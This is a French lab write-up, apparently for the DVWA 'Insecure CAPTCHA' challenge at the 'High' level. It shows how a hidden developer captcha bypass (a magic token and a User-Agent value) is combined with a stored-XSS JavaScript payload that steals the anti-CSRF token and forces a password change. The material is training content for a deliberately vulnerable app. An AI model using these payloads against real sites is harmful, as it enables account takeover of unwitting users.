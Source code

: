 # Niveau "High"

Quelles nouveautés pour ce niveau "High" ? :

![](../../../../.gitbook/assets/0b72ddd77825da73b7eb9dae362be3ce.png)

Ici pas d'étape de confirmation, le changement du mot de passe est directement effectué :

![](../../../../.gitbook/assets/de31571ab16a1a06442e7a913a15f3e3.png)

La seule requête effectuée est la suivante :

![](../../../../.gitbook/assets/01223a528799368e5faf595dae961622.png)

On identifie rapidement la présence d'un jeton anti-CSRF nommé `user_token`, mais plus intéressant ici, la réponse contient un commentaire HTML :

![](../../../../.gitbook/assets/7b78c6fe35530fd199e1e35cd62be202.png)

Il s'agit sans doute d'un contournement mis en place par le développeur afin de tester sa feature sans avoir à résoudre le Captcha. On forge donc une requête dont la valeur du Captcha \(le paramètre `g-recaptcha-response` \) est `hidd3n_valu3` ainsi qu'un entête `User-Agent` possédant la valeur `reCAPTCHA` :

![](../../../../.gitbook/assets/eb6728607b08ade78bea2c5b6c3aac1c.png)

Le changement du mot de passe fonctionne :

![](../../../../.gitbook/assets/9dcf8b33e9273a14a2e8452ac9c9604a.png)

A cause de la présence du jeton anti-CSRF il nous faut exploiter une faille XSS sur l'application cible afin de récupérer un jeton puis seulement effectuer l'attaque CSRF.

{% hint style="info" %}
Pour cela, le challenge XSS Stored sera utilisé et l'injection se fera en niveau "Low". Par contre, il ne faudra pas oublier de repasser en niveau "High" pour l'exploitation du contournement du Captcha.
{% endhint %}

Voici la première requête **`XHR`** :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
    var token = xhr.response.getElementsByName('user_token')[0].value;
               
    // Ici la seconde requête
};

xhr.send();
```

Une fois le jeton récupéré, la seconde requête effectuée sera :

```javascript
var xhr2 = new XMLHttpRequest();
xhr2.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr2.setRequestHeader("User-Agent", "reCAPTCHA");
xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr2.withCredentials = true;

xhr2.send("step=1&password_new=hacked&password_conf=hacked&g-recaptcha-response=hidd3n_valu3&user_token="+token+"&Change=Change");
```



L'exploitation de la vulnérabilité ne fonctionne pas sous Chrome \(testée sur la version 78\), car le navigateur interdit la modification de l'entête `User-Agent` :

![](../../../../.gitbook/assets/fbdd68937e48a4a534ac40448edf36a2.png)

Mais cela fonctionne sur Firefox \(testée sur la version 70\) :

![](../../../../.gitbook/assets/bf87cb7197d49a0befe9976b80d25cef.png)

